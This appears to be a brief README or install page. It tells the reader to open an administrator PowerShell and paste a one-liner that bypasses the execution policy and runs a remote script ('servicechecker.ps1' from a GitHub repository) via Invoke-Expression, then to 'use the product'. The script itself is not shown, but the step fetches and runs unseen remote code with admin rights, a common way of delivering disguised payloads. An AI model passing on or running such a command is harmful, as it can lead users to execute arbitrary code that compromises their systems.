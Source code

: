 1) Run powershell as admin
2) paste this in powershell admin powershell ```-Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"```
3) use the product
